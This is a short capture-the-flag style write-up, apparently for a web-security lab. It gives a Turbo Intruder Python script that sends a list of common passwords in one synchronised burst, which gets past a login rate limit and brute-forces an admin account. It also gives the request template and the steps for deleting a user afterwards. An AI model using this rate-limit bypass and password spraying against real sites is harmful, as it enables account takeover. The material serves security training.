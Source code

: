 
Just write up using Turbo Intruder to bypass the rate limit and brute force the password for the admin account.

Firstly, we need to enumerate behavior of the login page. If we try 3 incorrect passwords, we will be rate limited. We can use Turbo Intruder to bypass this rate limit and brute force the password for the admin account.

1. First, intercept the request to the login page and send it to Turbo Intruder.
2. Then, set the script to the following:


```python
words = ['123123', 'abc123', 'football', 'monkey', 'letmein', 'shadow', 'master', '666666', 'qwertyuiop', 
'123321', 'mustang', '123456', 'password', '12345678', 'qwerty', '123456789', '12345', '1234', '111111', 
'1234567', 'dragon', '1234567890', 'michael', 'x654321', 'superman', '1qaz2wsx', 'baseball', '7777777', '121212', '000000']

def queueRequests(target, wordlists):
    
    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in words:
        engine.queue(target.req, word, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

3. In request window in Turbo Intruder, set the payload position to the password field using the `%s`. Like that `csrf=Z4YPaD6zVNaUqk6YrFOye8rYbQDyqIzf&username=carlos&password=%s`
4. Run the script and wait for the password to be found. Find the response with status code 302 and use password to login as the admin.
5. Delete carlos from admin panel.